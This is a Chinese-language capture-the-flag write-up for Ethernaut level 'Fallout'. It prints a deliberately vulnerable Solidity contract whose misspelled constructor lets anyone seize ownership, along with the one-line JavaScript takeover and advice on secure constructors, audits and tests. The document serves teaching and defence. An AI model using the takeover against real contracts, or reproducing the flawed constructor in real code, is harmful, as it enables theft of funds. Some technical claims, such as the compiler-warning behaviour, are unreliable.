

# Ethernaut 第 2 关: Fallout - 题解

## 关卡目标
获得合约的所有权 (成为 owner)

## 合约代码分析

### 完整代码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

### 核心漏洞: 构造函数名称错误

**开发者的意图:**
```solidity
/* constructor */
function Fal1out() public payable {  // 想要这是构造函数
    owner = msg.sender;
    allocations[owner] = msg.value;
}
```

**实际情况:**
- 合约名: `Fallout` (字母 **o**)
- 函数名: `Fal1out` (数字 **1**)
- **名字不匹配 = 这不是构造函数!**

### 为什么会这样?

#### Solidity 构造函数的历史演变

**Solidity 0.4.x (旧版本):**
```solidity
contract MyContract {
    address owner;
    
    // 构造函数名字必须和合约名完全一样
    function MyContract() public {
        owner = msg.sender;
    }
}
```

**Solidity 0.5.0+ (新版本):**
```solidity
contract MyContract {
    address owner;
    
    // 使用 constructor 关键字
    constructor() public {
        owner = msg.sender;
    }
}
```

**这个合约的问题:**
- 使用 Solidity 0.6.0 (已支持 `constructor` 关键字)
- 但仍用旧式写法,且名字拼错
- 结果: `Fal1out()` 变成了一个**普通的公共函数**

### 漏洞后果

```solidity
address payable public owner;  // 从未初始化!
```

1. **owner 未初始化:**
   - 默认值: `address(0)` (0x000...000)
   - 任何人都不是 owner

2. **Fal1out() 是公共函数:**
   - 任何人都可以调用
   - 调用者直接成为 owner

3. **没有访问控制:**
   - 不需要任何前置条件
   - 一行代码即可破解

## 攻击步骤

### 步骤 1: 验证 owner 未初始化
```javascript
await contract.owner()
// 返回 "0x0000000000000000000000000000000000000000"
// 或其他表示未初始化的地址
```

### 步骤 2: 调用 Fal1out() 成为 owner
```javascript
await contract.Fal1out()
// Object { tx: "0x...", receipt: {...}, logs: [] }
```

**就这么简单!** 只需一行代码! 🎯

### 步骤 3: 验证所有权
```javascript
await contract.owner()
// "0xB9cf7960efEdDF5569C25853A4F428e6A8cED294" (你的地址)

(await contract.owner()) === player
// true
```

## 完整攻击脚本
```javascript
// 这一关真的只需要一行!
await contract.Fal1out();

// 验证
console.log("新 owner:", await contract.owner());
console.log("是你吗?", (await contract.owner()) === player);
console.log("✅ 攻击完成!");
```

## 漏洞本质

### 1. 拼写错误导致的严重后果

**微小的差异,巨大的危害:**
```
合约名: Fall【o】ut  ← 字母 o
函数名: Fal【1】out   ← 数字 1
```

这个**单字符错误**导致:
- 构造函数从未执行
- 权限系统完全失效
- 任何人都能接管合约

### 2. 旧版构造函数语法的风险

**为什么旧语法危险?**

旧语法 (0.4.x):
```solidity
contract MyContract {
    function MyContract() public { }  // 名字必须匹配
}
```

**问题:**
- 重命名合约时,容易忘记改构造函数名
- 拼写错误无法被编译器检测
- 构造函数变成普通函数,但没有任何警告

新语法 (0.5.0+):
```solidity
contract MyContract {
    constructor() public { }  // 不依赖名字匹配
}
```

**优势:**
- 使用关键字,不会拼错
- 重命名合约时无需改构造函数
- 编译器能更好地检测错误

### 3. 真实世界的案例

这不是理论漏洞,真实世界发生过类似事件:

**Rubixi 合约事件 (2016):**
```solidity
// 合约原名 DynamicPyramid
contract Rubixi {
    // 开发者重命名了合约,但忘记改构造函数
    function DynamicPyramid() public {
        creator = msg.sender;
    }
}
```

**后果:**
- 构造函数变成普通函数
- 攻击者调用 `DynamicPyramid()` 成为 creator
- **损失约 1000 ETH** (当时价值数十万美元)

## 攻击流程图



## 安全建议

### ❌ 危险的写法 (旧语法)
```solidity
pragma solidity ^0.4.24;

contract MyContract {
    address owner;
    
    // 依赖名字匹配,容易出错
    function MyContract() public {
        owner = msg.sender;
    }
}
```

### ⚠️ 次优的写法 (混用)
```solidity
pragma solidity ^0.6.0;

contract Fallout {
    // 即使名字正确,也不应该用旧语法
    function Fallout() public {
        owner = msg.sender;
    }
}
```

### ✅ 安全的写法 (推荐)
```solidity
pragma solidity ^0.8.0;

contract MyContract {
    address public owner;
    
    // 使用 constructor 关键字
    constructor() {
        owner = msg.sender;
    }
    
    // 如果需要转移所有权,用明确的函数
    function transferOwnership(address newOwner) public {
        require(msg.sender == owner, "Not owner");
        require(newOwner != address(0), "Invalid address");
        owner = newOwner;
    }
}
```

## 防御措施清单

### 1. 使用现代 Solidity 版本
```solidity
// ✅ 使用 0.8.0+
pragma solidity ^0.8.0;

// ✅ 使用 constructor 关键字
constructor() {
    owner = msg.sender;
}
```

### 2. 编译器警告
Solidity 0.5.0+ 会警告旧式构造函数:
```
Warning: Defining constructors as functions with the same name as the contract 
is deprecated. Use "constructor(...) { ... }" instead.
```

**永远不要忽略编译器警告!**

### 3. 代码审计重点
- ✅ 检查构造函数是否正确声明
- ✅ 验证 owner 初始化逻辑
- ✅ 确认没有意外的公共函数能修改权限
- ✅ 使用静态分析工具 (如 Slither, Mythril)

### 4. 测试覆盖
```javascript
// 部署后立即测试
it("should set deployer as owner", async () => {
    const owner = await contract.owner();
    assert.equal(owner, deployer.address);
});

it("should not allow others to become owner", async () => {
    await expectRevert(
        contract.becomeOwner({from: attacker}),
        "Not authorized"
    );
});
```

## 关键教训

### 1. 语言演进的重要性
- Solidity 不断改进安全性
- 旧语法存在已知风险
- 及时升级到新版本和最佳实践

### 2. 拼写错误的代价
```
一个字符之差 = 数百万美元损失
```
- 使用 IDE 的自动补全
- 启用严格的 linting 规则
- 进行彻底的代码审查

### 3. 构造函数的关键性
构造函数负责:
- 初始化权限系统
- 设置关键状态变量
- 建立不可变参数

**构造函数出错 = 整个合约不安全**

### 4. 不要依赖命名约定
```
旧方式: 依赖名字匹配 (容易出错)
新方式: 使用语言关键字 (明确无歧义)
```

## 对比第 1 关

| 维度 | Fallback 关 | Fallout 关 |
|------|-------------|------------|
| **漏洞类型** | 逻辑漏洞 (receive 函数) | 拼写错误 |
| **攻击复杂度** | 需要 2 步 | 只需 1 步 |
| **根本原因** | 设计缺陷 | 人为失误 |
| **防御方法** | 仔细设计权限路径 | 使用现代语法 |
| **真实案例** | 理论漏洞 | Rubixi 事件 |

## 总结

Fallout 关看似简单,但揭示了一个**真实发生过的严重漏洞模式**:

**核心问题:** 旧版 Solidity 的构造函数依赖名字匹配,单个字符的拼写错误就能:
1. 让构造函数失效
2. 权限系统完全崩溃  
3. 任何人都能接管合约

**历史教训:** Rubixi 合约因类似问题损失 1000 ETH

**现代解决方案:**
- 使用 `constructor` 关键字 (Solidity 0.5.0+)
- 启用编译器警告
- 使用静态分析工具
- 进行全面测试

**关键要点:** 看起来微不足道的细节(一个字符差异)可能导致灾难性的安全漏洞。这就是为什么智能合约开发需要极其严格的代码审查和测试流程。

---

## 相关资源
- [Solidity 0.5.0 Breaking Changes](https://docs.soliditylang.org/en/v0.5.0/050-breaking-changes.html)
- [Rubixi 合约分析](https://blog.sigmaprime.io/solidity-security.html#constructors)
- [Smart Contract Weakness Classification](https://swcregistry.io/docs/SWC-118)


